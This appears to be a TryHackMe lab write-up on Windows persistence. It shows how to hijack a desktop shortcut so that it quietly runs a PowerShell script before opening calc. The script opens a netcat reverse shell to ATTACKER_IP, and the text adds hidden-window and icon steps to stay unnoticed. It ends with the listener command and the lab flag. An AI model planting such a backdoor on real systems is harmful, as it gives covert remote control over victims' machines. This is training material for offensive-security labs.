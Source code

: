 If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

![calc properties](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7a7349b9dcc5af3180044ee1d7605967.png)  

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![backdoored lnk file](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/fe703ddea6135e0c867afcc6f61a8cd2.png)  

Let's start an nc listener to receive our reverse shell on our attacker's machine:

```shell-session
user@AttackBox$ nc -lvp 4445
```

If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully. 

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)
Execute `C:\flags\flag5.exe` from your reverse shell to get your flag!


Once we do all that, we will get a shell as administrator:

![](../images/Pasted%20image%2020250515163008.png)

Let's get our flag:

```
C:\flags>.\flag5.exe

THM{NO_SHORTCUTS_IN_LIFE}
```
